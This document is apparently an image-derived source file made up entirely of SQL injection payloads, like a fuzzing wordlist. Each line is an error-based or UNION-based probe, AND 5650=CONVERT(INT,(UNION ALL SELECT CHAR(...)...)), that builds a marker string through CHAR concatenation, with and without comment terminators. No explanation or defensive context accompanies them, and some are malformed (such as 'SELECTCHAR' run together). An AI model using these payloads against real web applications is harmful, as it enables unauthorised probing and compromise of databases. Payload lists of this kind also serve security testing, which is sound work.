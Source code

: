            AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
           UNION ALL SELECT NULL#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
           UNION ALL SELECT NULL 
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
           AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))